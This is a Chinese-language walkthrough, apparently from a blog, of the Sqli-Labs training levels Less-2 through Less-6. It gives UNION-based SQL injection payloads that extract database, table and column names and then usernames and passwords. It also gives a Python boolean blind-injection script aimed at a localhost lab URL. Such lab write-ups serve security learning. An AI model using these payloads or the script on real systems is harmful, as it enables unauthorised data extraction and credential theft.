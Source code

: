 #### Less-2
传入一个单引号试探注入点，发现报错
```
..... syntax to use near '' LIMIT 0,1' at line 1
```
推测和Less-1唯一的区别在于没有单引号，只是用数字进行查询，例如
```
SELECT * FROM users WHERE id=$id LIMIT 0,1
```
所以payload和Less-1差别只在于一个单引号
```
-1 union select 1,2,3 %23
-1 union select 1,2,group_concat(schema_name) from information_schema.schemata%23
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1 union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-3
题目名字叫，Single quotes with twist string (基于错误的GET单引号变形字符型注入)
测试 ?id=1' 得到
```
...... syntax to use near ''1'') LIMIT 0,1' at line 1
```
猜测语句
```
SELECT * FROM users WHERE id=('$id') LIMIT 0,1
```
所以通过前面加 -1') 闭合前面 尾部加%23 （#的url编码）中间就可以为所欲为了
```
SELECT * FROM users WHERE id=('   -1'){{为所欲为}}#23    ') LIMIT 0,1
```
所以payload
```
-1')union select 1,2,3 %23
-1')union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1')union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1')union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-4 
尝试'并未发现报错，尝试"发现报错
```
syntax to use near '"1"") LIMIT 0,1' at line 1
```
猜测语句
```
SELECT * FROM users WHERE id=("$id") LIMIT 0,1
```
所以payload和3差不多只是单引号变双引号
```
-1")union select 1,2,3 %23
-1")union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1")union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1")union select 1,group_concat(username),group_concat(password) from users%23
```
#### Less-5 在导航页里显示的是要使用双查询
发现正常或者注入成功是这样的
![](image/Sqli-Labs-Sqlmap-基础篇/9.png)
而一旦出错会抱错
![](image/Sqli-Labs-Sqlmap-基础篇/8.png)
显然是布尔注入而且猜测语句
```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```
当然就可以很多操作了，通过substr()、ascii()爆破也能得到一切
打个比方
```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80%23     
//截取数据库下第一个表的第一个字符与80ascii值进行对比

找第二个字符只需要改成substr('xxx',2,1)即可。
找第二个表改成limit 1,1
```
也可以直接拿这个盲注脚本爆破，参数自己改就行了
![](image/Sqli-Labs-Sqlmap-基础篇/11.png)

```
#!/usr/bin/env python
# encoding:utf8

import requests
import time
import sys

# config-start
sleep_time = 5
error_time = 1
# config-end

def getPayload(indexOfResult, indexOfChar, mid):
	column_name="schema_name"
	table_name="schemata"
	database_name="information_schema"
	startStr = "1'and "
	endStr = " and'1'='1"
	payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + "  limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
	payload = startStr + payload + endStr
	return payload

def exce(indexOfResult,indexOfChar,mid):
	# content-start
	url = "http://localhost/sqli-labs-master/Less-5/?id="
	tempurl = url + getPayload(indexOfResult,indexOfChar,mid)
	content = requests.get(tempurl).text
	# content-end
	# judge-start
	if "You are in..........." in content:
		return True
	else:
		return False
	# judge-end

def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
	while left_number < right_number:
		mid = int((left_number + right_number) / 2)
		if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
			left_number = mid
		else:
			right_number = mid
		if left_number == right_number - 1:
			if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
				mid += 1
				break
			else:
				break
	return chr(mid)

def search():
	for i in range(32): # 需要遍历的查询结果的数量
		counter = 0
		for j in range(32): # 结果的长度
			counter += 1
			temp = doubleSearch(i, j, 0, 127) # 从255开始查询
			if ord(temp) == 1: # 当为1的时候说明已经查询结束
			    break
			sys.stdout.write(temp)
			sys.stdout.flush()
		if counter == 1: # 当结果集的所有行都被遍历后退出
			break
		sys.stdout.write("\r\n")
		sys.stdout.flush()

search()
```
#### Less-6 
Less-6和Less-5的关系就和1♂2，3♂4的关系一样 把'改成"在脚本上修改就很行了


更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)